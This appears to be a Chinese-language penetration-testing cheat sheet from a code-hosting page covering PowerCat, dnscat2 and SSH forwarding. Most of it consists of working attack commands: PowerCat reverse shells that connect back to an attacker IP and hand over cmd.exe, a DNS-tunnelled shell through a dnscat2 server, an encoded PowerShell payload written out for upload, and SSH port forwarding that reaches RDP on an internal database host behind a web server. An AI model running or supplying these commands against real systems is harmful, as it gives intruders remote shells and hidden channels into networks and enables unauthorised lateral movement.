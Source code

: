 - nc反向链接PowerCat

```
本地
nc -l -p 8888 -vv
目标
powercat -c 192.xxx.xxx.xxx -p 8888 -v -e cmd.exe
```

- PowerCat DNS 隧道

```
安装dnscat
cd dnscat2/server/
gem install bundler
bundle install

服务端
ruby dnscat2.rb ttpowercat.test -e open --no-cache

目标机

powercat -c 192.xxx.xxx.xxx -p 53 -dns ttpowercat.test -e cmd.exe
```
- PowerCat 生成payload

```
powercat -l -p 8000 -e cmd -v -g >> shell.ps1 上传
powercat -c 10.xxx.xxx.xxx -p 8080 -v 监听

编码
powercat -c xxx.xxx.xxx.xxx -p 9999 -ep -ge
监听
powercat -l -p 9999 -v
```

### 应用层隧道技术

#### ssh

- ssh参数

```
-C 压缩传输、提高传输速度
-f 将ssh传输转入后台执行、不占用当前的shell
-N 建立静默链接（建立了连接、但是看不到具体会话）
-g 允许远程主机连接本地用于转发的端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发（SOCKS代理）
-F 指定ssh端口
```

- 本地转发

```

vps kali linux(192.168.1.4)
web服务器(192.168.1.11/1.1.1.16)
数据库服务器(1.1.1.10)
域控制器(1.1.1.2)

vps上
ssh -CfNg -L 1153(vps端口):1.1.1.10(目标主机):3389（访问端口）

rdesktop 127.0.0.1:1153
```
